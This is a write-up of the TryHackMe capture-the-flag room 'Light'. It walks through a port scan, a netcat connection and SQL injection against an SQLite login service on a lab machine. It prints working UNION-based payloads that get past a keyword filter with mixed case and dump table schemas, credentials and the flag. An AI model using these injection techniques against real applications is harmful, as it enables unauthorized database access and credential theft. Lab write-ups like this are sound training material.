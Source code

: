 ```yaml
---
title: "Light"
date: 2025-03-06
image: /assets/img/tryhackme/Light/Light_image.jpg
description: Writeup of the TryHackMe-CTF Light
categories: [Tryhackme, Easy]
tags: [linux, sqli]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Light</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Welcome to the Light database application!</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/lightroom">https://tryhackme.com/room/lightroom</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Light.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.111.47                
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-06 11:12 EST
  Nmap scan report for 10.10.111.47
  Host is up (0.042s latency).
  Not shown: 65533 closed tcp ports (conn-refused)
  PORT     STATE SERVICE
  22/tcp   open  ssh
  1337/tcp open  waste

  Nmap done: 1 IP address (1 host up) scanned in 20.81 seconds
```

Because of the challenge description, I skipped the nmap script scan and moved on to port 1337.

## Port 1337 Analysis

I started by using netcat to connect to the port 1337:
```bash
$ nc 10.10.111.47 1337        
  Welcome to the Light database!
  Please enter your username:
```

Since the description provided the username `smokey`, I entered it and received the following response:
```bash
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
```

I tested these credentials with `ssh`, but without success. The application takes user input, verifies it and returns the corrensponding password.  Keeping this in mind, I attempted some format string payloads, but they didn't work either. So, I continued with SQL injection payloads. While experimenting with common SQL keywords and syntax, I got the following results:
```bash
Please enter your username: select
Ahh there is a word in there I don't like :(
Please enter your username: Select
Username not found.
Please enter your username: UnIoN
Username not found.
Please enter your username: union
Ahh there is a word in there I don't like :(
Please enter your username: --
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
Please enter your username: '    
Error: unrecognized token: "''' LIMIT 30"
Please enter your username: 'test
Error: near "test": syntax error
```

Based on these results, I assumed that the SQL query handling the input might look something like this:
```sql
select password from users where username='our input' limit 30;
```

This suggests that there is a single column in the response, which I could potentially exploit using a `UNION` attack:
```bash
Please enter your username: 'Union Select true'
Password: 1
Please enter your username: 'Union Select TryHackMe'
Error: no such column: TryHackMe
```

Thats a success, I managed to break out of the SQL syntax! Now, I needed to gater more information about the database management system to refine my attack:
```bash
Please enter your username: 'Union Select @@version'   
Error: unrecognized token: "@"
Please enter your username: 'Union Select Version()'    
Error: no such function: Version
Please enter your username: 'Union Select sqlite_version()'
Password: 3.31.1
```

Great, it's an SQLite database! This information helped me to dig deeper and find the name of the user table:
```bash
Please enter your username: 'Union Select Sql From sqlite_master'
Password: CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
```

With this, I was able to extract more useful data from the `admintable`:
```bash
Please enter your username: 'Union Select group_concat(tbl_name) From sqlite_master'
Password: usertable,admintable
Please enter your username: 'Union Select username || ";" || password From admintable'
Password: [removed];[removed]
```

Since only one entry was returned, I checked if there where more:
```bash
Please enter your username: 'Union Select GROUP_CONCAT(username) from admintable'       
Password: [removed],flag
```

The flag entry is exectly what I was looking for:
```bash
Please enter your username: 'Union Select GROUP_CONCAT(password) from admintable'              
Password: [removed],THM{[removed]}
```

solved! :)
